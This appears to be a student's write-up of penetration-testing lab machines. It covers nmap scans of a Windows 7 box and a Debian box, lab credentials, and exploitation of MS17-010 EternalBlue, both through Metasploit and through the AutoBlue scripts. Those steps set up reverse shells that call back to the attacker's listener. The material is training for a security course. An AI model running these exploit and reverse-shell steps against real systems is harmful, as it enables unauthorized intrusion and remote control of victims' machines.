

# Capstone Labs

Import all the [VMs](https://drive.google.com/drive/folders/1xJy4ozXaahXvjbgTeJVWyY-eUGIKgCj1) into [VMWare Workstation Pro (free)](https://support.broadcom.com/group/ecx/productdownloads?subfamily=VMware%20Workstation%20Pro) or Virtualbox and change Network adapter to `NAT`.

## Blue

> O.S. - Windows 7
>
> Credentials:
>
> - `user`:`Password123!`
> - `administrator`:`Password456!`

```bash
mkdir -p ~/tcm/peh/blue/
cd ~/tcm/peh/blue/
```

```bash
sudo nmap -p- -A -T4 192.168.31.132 -oA blue
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:33:BE:EE (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1

OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-13T20:57:32
|_  start_date: 2024-07-13T20:49:44
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:33:be:ee (VMware)
|_clock-skew: mean: 1h19m51s, deviation: 2h18m33s, median: -8s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-13T16:57:32-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.68 ms 192.168.31.132
```

### Exploit MS17-010

> [CVE-2017-0144 - MS17-010](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
>
> [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit](https://www.exploit-db.com/exploits/42031)
>
> [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Metasploit**

```bash
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.31.132
run
```

```bash
[+] 192.168.31.132:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 192.168.31.132
check
# Same as auxiliary/scanner/smb/smb_ms17_010 module
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.131 # Listening HOST/Kali
run
```



**Manual exploit**

```bash
cd ~/tcm/peh/blue/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd ~/tcm/peh/blue/AutoBlue-MS17-010
pip install -r requirements.txt
cd shellcode

# Checker
python2 eternal_checker.py 192.168.31.132
```


> ❗ The machine can crash with this attack.

```bash
cd ~/tcm/peh/blue/AutoBlue-MS17-010/shellcode
./shell_prep.sh
# kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
# y
# LHOST for reverse connection:
# 192.168.31.131
# LPORT you want x64 to listen on:
# 8888
# LPORT you want x86 to listen on:
# 2222
# Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
# 1
# Type 0 to generate a staged payload or 1 to generate a stageless payload
# 0

cd ..
./listener_prep.sh
# Starts a listener
```

```bash
# Open another Terminal
cd ~/tcm/peh/blue/AutoBlue-MS17-010/
python2 eternalblue_exploit7.py 192.168.31.132 shellcode/sc_all.bin
```


---

## Academy

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
mkdir -p ~/tcm/peh/academy
cd ~/tcm/peh/academy/
```

```bash
sudo nmap -p- -A -T4 192.168.31.128 -oA academy
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:F2:81:D6 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.74 ms 192.168.31.128
```

- Consider first attacks to ports `21`, `80`.
  - Brute-forcing port `22` (SSH) can be used to check if network detection is applied at client side, and for testing some default credentials.

### Port 80

Visit [192.168.31.128](192.168.31.128)

- Apache default webpage
